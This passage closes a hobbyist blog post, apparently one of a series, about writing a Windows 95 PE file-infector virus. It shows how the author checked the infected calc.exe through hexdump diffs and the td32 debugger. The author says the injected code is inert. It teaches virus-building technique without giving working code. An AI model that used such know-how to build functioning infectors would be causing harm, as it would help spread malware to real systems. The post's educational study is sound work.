Looking at the [diff between the two hexdumps](https://github.com/cpu/vexation/blob/master/minijector/hexdump.diff.txt) showed what I was expecting. Early in the file there was a diff to the number of sections (a `06` changed to a `07`). There is also an addition of new section metadata including the `.ireloc` string bytes (`2E 69 72 65 6C 6F 63 00` == `".ireloc\0"`). Towards the end of the file was a big blob of new data that isn't present in the original file (the virus code!).

That confirmed things look good at-rest on disk, but what about at-runtime when the infected `calc.exe` is loaded into memory? To verify this I turned to the trusty Turbo Assembler debugger `td32`.

Running the infected `calc.exe` in `td32` initially generated a warning about there being no debug symbols (this is expected). After closing that I found myself at address `0x0040534E`. I was able to turn back to the `tdump` output to understand why that is. The PE was loaded at the base address `0x00400000` and `tdump` says the entry point RVA is `0x0000534E`. Add those two together and you get `0x0040534E`, the start address of the original `calc.exe` code and the location the debugger is paused.

Since I didn't change the entry point of `calc.exe` to point to the new segment and the virus code I had to go out of my way to find it in memory to look at the dissassembly. I found the easiest way to do that (while execution is still paused at the start of the `calc.exe` code) was to:

1. right click the viewing area and choose "Go To".
1. enter the expression `00400000 + 00013000`


Why is `0x00013000` used in the expression? Back in the `tdump` output I saw that value is the RVA of the virus segment. Adding it to the base address the infected PE was loaded at (`0x00400000`) gives the start of the virus code in memory.

Looking at the disassembly that is now in view let me quickly see that the right code was injected. The most obvious "tell" for me is the comparison with `0xFFFFFFFF` done a few instructions after the start of the disassembly. That's
the `cmp eax, INVALID_FILE_HANDLE_VALUE` instruction from [line 61 of `minijector.asm`](https://github.com/cpu/vexation/blob/63dd691b18b26f56381b53878a2f1fa29bb047a7/minijector/minijector.asm#L61). Neat!

The combination of the `tdump` output, the `hexdump -C` output, and the state of the program at runtime in `td32` all gave me confidence that I'm on the right track.

# Conclusion

Wow, that was a lot of work! Before getting too excited there's a few hard realities to face. First off, all of the code I injected is entirely inert. Since the entry point RVA wasn't changed it won't ever be run. There won't be a generation 2. Second, and more importantly, even if the code was run it wouldn't work! There's three important reasons why:

1. It assumes it was loaded in the same location as generation   0/`minijector.exe`, not the new segment location in `calc.exe`!
1. It references locations that were part of a data segment that wasn't copied    to the infected file!
1. It assumes the locations of all of the `kernel32.dll` win32 API addresses    that are used won't change from where they were for generation 0!

Why go through all the trouble of building a file infector that only infects once? Well, you have to start somewhere :-) This was the easiest way I could think to start out and it let me write a more "vanilla" program. The remaining problems help illustrate the unique requirements of virus code compared to normal program code. The solutions are quite interesting and unfortunately will have to wait until next time..

As always, I would love to hear feedback about this project. I'm finding it somewhat challenging to decide on what level of detail to share and what knowledge to assume (e.g. about general assembly programming) so thoughts here are particularly welcome! Feel free to drop me a line on twitter ([@cpu](https://twitter.com/cpu)) or by email ([daniel@binaryparadox.net](mailto://daniel@binaryparadox.net)).
